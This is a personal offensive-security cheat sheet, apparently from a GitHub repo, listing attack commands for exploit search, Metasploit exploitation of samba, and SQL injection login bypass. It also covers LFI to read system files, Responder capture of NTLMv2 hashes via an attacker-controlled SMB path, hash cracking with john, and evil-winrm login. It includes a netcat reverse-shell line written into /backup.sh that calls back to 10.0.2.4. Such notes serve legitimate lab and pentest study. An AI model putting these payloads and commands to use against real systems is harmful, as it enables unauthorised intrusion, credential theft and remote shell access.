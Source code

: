 # General exploitation

## Links
exploit-db.com
rapid7.com/db/modules/exploit
https://github.com/swisskyrepo/PayloadsAllTheThings


## seraching with searchsploit

```
seearchsploit <app>
```
example
```
searchsploit samba

searchsploit mod ssl 2
```

# Exploit with Metasploit
Using samba as an example


search for a codename of exploit or however it shows up in searchsploit
```
search trans2open
```
```
use exploit/linux/samba/trans2open
or 
use 1
```
```
set RHOST 192.168.1.4
```
```
msf5 > show targets
```
```
msf5 > exploit
```
IF IT KEEPS DYING TRY A DIFFERENT TYPE OF PAYLOAD
stageless vs staged
```
msf5 > options
```
```
msf5 > set payload linux/x86/shell_reverse_tcp
```
```
msf5 > exploit
```

# Manual

download exploit if you can find it on github or google

download, compile and run


shit to try:

```
echo '#!/bin/bash
nc -e /bin/bash 10.0.2.4 7337
"
' > /backup.sh
```

# SQL Injections
SQL Injection 101, Login tricks

    admin' --
    admin' #
    admin'/*
    ' or 1=1--
    ' or 1=1#
    ' or 1=1/*
    ') or '1'='1--
    ') or ('1'='1--
    ....

    Login as different user (SM*) 
    ' UNION SELECT 1, 'anotheruser', 'doesnt matter', 1--

*Old versions of MySQL doesn't support union queries
https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/#LineCommentAttacks

## getting around SQL
Show databases
```
show databses;
```
select a database
```
use <database name>
```
print tables
```
select * from <database>.<table>;
```

# Redis
geeting around Redis to print out keys
```
redis-cli - <ip or hostname> -p <port> -a <password if you know it>
```
printing all keys
```
select *
keys *
```
# LFI
always try to see if you can do any sort of lfi 
index.php?page="../../../../../../../../etc/hosts


# LFI on a windows machine
```
index.php?page="../../../../../../../../windows/system32/drivers/etc/hosts"
```

use repeater to see if you can connect back to a smb server youre running and grab the hash credentials
```
sudo responder -I tun0
```
then on the browser
```
http://<IP-or-HOST>/index.php?page=//<attaker-ip>/somefile
```
copy the `NTLMv2-SSP Hash` 
```
echo "Administrator ........0" > hash.txt
```
use john to crack the hash
```
sudo john -w=/usr/share/wordlists/rockyou.txt hash.txt
```

# WINRM
connect using winrm
```
evil-winrm -i 10.129.56.226 -u Administrator -p password
```
